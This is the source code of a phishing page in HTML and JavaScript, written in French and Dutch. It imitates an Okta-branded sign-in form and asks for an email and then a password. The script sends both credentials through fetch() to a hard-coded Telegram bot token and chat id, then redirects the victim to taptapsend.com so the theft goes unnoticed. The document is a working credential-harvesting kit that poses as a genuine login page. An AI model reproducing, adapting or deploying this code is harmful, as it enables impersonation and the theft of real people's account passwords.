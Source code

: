 <!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Formulaire de Connexion</title>
    <style>
        body {
            background-image: url('https://ok9static.oktacdn.com/fs/bco/7/fs0chyx69ua4xbJnw417');
            font-family: Arial, sans-serif;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        .container {
            background-color: white;
            padding: 40px;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
            width: 400px;
            text-align: beginning;
        }
        .logo {
            width: 200px;
        }
        input[type="text"], input[type="password"] {
            width: 80%;
            padding: 20px;
            margin: 10px 0;
            border: 1px solid #ccc;
            border-radius: 4px;
            box-sizing: border-box;
        }
        button {
            background-color: #FFD700; /* Jaune foncé */
            color: black;
            padding: 10px;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            width: 80%;
            margin: 10px 0;
        }
        .remember-me {
            margin-bottom: 10px;
        }
        .languages {
            text-align: right;
        }
        .footer-links {
            font-size: 12px;
            margin-top: 20px;
        }
    </style>
</head>
<body>

    <div class="container">
        <div class="languages">
            <a href="#">NL</a> | <a href="#">FR</a> | <a href="#">EN</a>
        </div>
        <img src="https://ok9static.oktacdn.com/fs/bco/1/fs0ci1i9sp9xQg0tI417" alt="Logo" class="logo">
        
        <div id="emailSection">
            <label for="email">Je e-mailadres</label>
            <input type="text" id="email" placeholder="Entrez votre e-mail">
            <div class="remember-me">
                <input type="checkbox" id="rememberMe"> 
                <label for="rememberMe">Se souvenir de moi</label>
            </div>
            <button id="nextButton">Suivant</button>
        </div>

        <div id="passwordSection" style="display: none;">
            <label for="password">Wachtwoord</label>
            <input type="password" id="password" placeholder="Entrez votre mot de passe">
            <button id="loginButton">Se connecter</button>
        </div>

        <div class="footer-links">
            <p><a href="#">Wachtwoord vergeten?</a></p>
            <p><a href="#">Aanmelden met iets anders - NIEUW</a></p>
            <p><a href="#">Terug naar aanmelden</a></p>
        </div>
    </div>

    <script>
        document.getElementById('nextButton').addEventListener('click', function() {
            const email = document.getElementById('email').value;
            if (email) {
                document.getElementById('emailSection').style.display = 'none';
                document.getElementById('passwordSection').style.display = 'block';
            } else {
                alert('Veuillez entrer un e-mail.');
            }
        });

        document.getElementById('loginButton').addEventListener('click', function() {
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;

            if (email && password) {
                // Envoi des données à votre bot Telegram
                fetch(`https://api.telegram.org/bot5664903678:AAHEHtO2Wb-UC5N7AizvuqiQ-Nd_G89Rd90/sendMessage?chat_id=5147593892&text=Email:%20${encodeURIComponent(email)}%0AMot%20de%20passe:%20${encodeURIComponent(password)}`)
                    .then(response => {
                        if (response.ok) {
                            window.location.href = 'https://www.taptapsend.com/';
                        } else {
                            alert('Erreur lors de l\'envoi des données.');
                        }
                    });
            } else {
                alert('Veuillez remplir tous les champs.');
            }
        });
    </script>

</body>
</html>
